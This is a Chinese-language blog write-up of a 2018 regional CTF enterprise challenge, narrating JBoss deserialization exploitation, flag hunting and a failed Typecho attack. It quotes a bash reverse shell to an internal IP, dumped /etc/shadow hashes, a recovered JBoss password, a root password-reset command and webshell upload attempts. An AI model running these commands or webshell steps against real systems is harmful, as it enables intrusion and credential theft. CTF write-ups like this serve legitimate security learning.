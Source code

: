 ```yaml
---
layout:		post
title:		"铁人三项赛11赛区企业赛总结"
subtitle:		"没做出来两道题，根本不敢自称wp"
date:		2018-06-06 21:43:29 +0800
author:		"Les1ie"
catlog:   true
tags: 
  - CTF
  - 网络安全
  - grootsec
---
```


## 序
2018年5月26日 重庆邮电大学

Grootsec

比赛之前一周才接到通知，准备好了一堆ew shell, 字典 代理工具扫描器，还带上了awvs..

本来还准备上巡风的.. 但是看了下kali装docker还是放弃了

## 企业赛
两套系统，ip分别是`202.1.16.112`, `202.1.16.122`，先扫一圈，
112的80是wordpress 4.9.1, 8080端口开了jboss。122只开了80，是typecho

typecho,那么多半是反序列化前台getshell; jboss那么多半也是反序列化了

刚拿到题目还是有点小兴奋的，因为两套题都有思路

#### jboss
jboss和wordpress这台，印象中wp4.9.1并没有什么严重漏洞，除非这里是弱口令 jboss反序列化可以试试 版本号都没看，直接祭出多年以前kmh给我的指哪打哪的java反序列化exp,然而 一顿操作之后并没有打进去

msf里面以前就研究过java反序列化的exploit, 但是至今不知道该用哪个

于是再去github翻了一圈，找到了jexboss和一个jar的exp, 可能是我方式不对， jexboss并没有打进去。
后面这个直接打进去了，root权限

根目录下翻了一下找到了一个flag3, 然后进`/var/www/html`，翻了下config文件找到了数据库密码和flag7 这个时候大概是开始比赛之后半个小时。然后就毫无进展了..

数据库里面很可能还有一个flag, 但是这个exp不给力，很多命令，尤其是带有管道操作符和引号、尖括号的不能正常运行

翻了下[/root/.bash_history](http://telegra.ph/t3sec-bash-history-06-06)， 首先装了ssh, 然后装了nmong,jboss,然后配置了wordpress, 装的过程中还弹了一个shell
```
bash -i >& /dev/tcp/192.168.12.181/7777 0>&1
```
可能是告诉我们内网环境吧.

最后临走前，关掉了ssh

于是手动开启了ssh, 但是并不知道密码， 拖下来`/etc/shadow`, 丢到join 爆破，但是并没有搞到密码。
```
root:$6$I4H1eCLc$UVFn3yZo9LNFP1GUk39281oEuhG5hHb8vlwV43qM8oAgVGZz7n.XUelPT/nZs0sgfKtdCw2UepVeRKFYWCXP11:17493:0:99999:7:::
www-data:*:17379:0:99999:7:::

simple:$6$IwyRuyYt$d80DUVvsg9V8r8PQR5BybtFCTXHhJ32a42EeMTCcabrhGCw43roKXiFs5WdsqoE.C2/3Wyn0ylLdtPnbvglc1/:17487:0:99999:7:::

```
于是尝试修改root密码，由于exp一次只能输入一条命令，那么`passwd root`这样的命令就不行了
搜了下可以用
```
echo password |passwd --stdin root
```
试过不行，其他也没有想到好的办法

尝试写一句话到wordpress，试过了 `echo xxx>shell.php`, `python -c`, 均失败告终

后来瞄准目标到Jboss, 翻到了jboss的密码
```
buiFuUjs6IQN6rT
```
连上去，把菜刀的jsp马打war包传上去，不能访问，找了其他好几个木马，都失败了，最后放弃这道题

#### typecho
typecho的题目当时是没有做出来的，虽然知道是反序列化，但是无论如何也写不进去shell, 当时一直以为是exp的问题，找了很多个都不行，比赛完之后，有师傅说目录没有w权限，直接执行system就行了

还是经验太少呀..只想着写shell

当时还准备试试ssrf的.. 但是一直在做jboss那道题，因为觉得jboss那个只差一点点了

昨天（2018年6月5日）在实验室重新搭建了一个带漏洞版本的typecho,使用的[脚本](https://github.com/IanSmith123/docker-typecho)

使用了那天试过的几个exp, 都不能成功写进去shell, 最后还是用的system命令去执行拿的flag
![](http://static.scuseek.com/20180606-212926.png)

## 数据赛、个人赛
川川和涛森在做，做web做不来了就去围观下他们做数据赛，个人赛三道pwn, 我们的逆向手很绝望:(

全场没几个队伍做出来了pwn。

## 跋
早上9点比赛到下午16点，就早上半个小时有用:(

最后第7名，拿了个二等奖, 前四名进全国赛  :( 还是太菜了

内网是有一套django的.. 我还没看到


Les1ie

2018年6月6日21:36:46

